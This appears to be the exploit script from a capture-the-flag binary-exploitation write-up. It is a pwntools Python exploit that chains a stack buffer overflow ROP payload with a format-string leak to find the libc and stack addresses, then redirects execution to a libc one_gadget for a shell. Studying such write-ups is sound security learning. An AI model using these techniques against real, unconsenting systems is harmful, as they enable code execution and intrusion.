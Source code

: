 ```python
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x401290
'''.format(**locals())
# break *0x4012f8
# break *0x040139d
# break *0x401383

# =========================================================
#                         EXPLOITS
# =========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

def exploit():
    global io
    io = initialize()
    rop = ROP(exe)

    payload = flat({
        72: [
            0x040131f,          # read(0, song, 200)
            0x0,                
            elf.sym['main'], 
        ]
    })
    io.sendlineafter(b'be?!', payload)
    io.sendlineafter(b'song?', b'%3$p|%11$p|')

    io.recvuntil(b'0x')
    libc.address = int(io.recvuntil(b'|', drop=True), 16) - 0x114887

    io.recvuntil(b'0x')
    stack = int(io.recvuntil(b'|', drop=True), 16)

    # 0x50a47, 0xebc81, 0xebc85, 0xebc88
    payload = flat({
        64: [
            stack - 0x120,          # rbp of help_me
            libc.address + 0xebc81  # one_gadget
        ]
    })
    io.sendlineafter(b'be?!', payload)

    log.success('stack: %#x', stack)
    log.success('libc base: %#x', libc.address) 
    io.interactive()

if __name__ == '__main__':
    exploit()
```
{% endcode %}
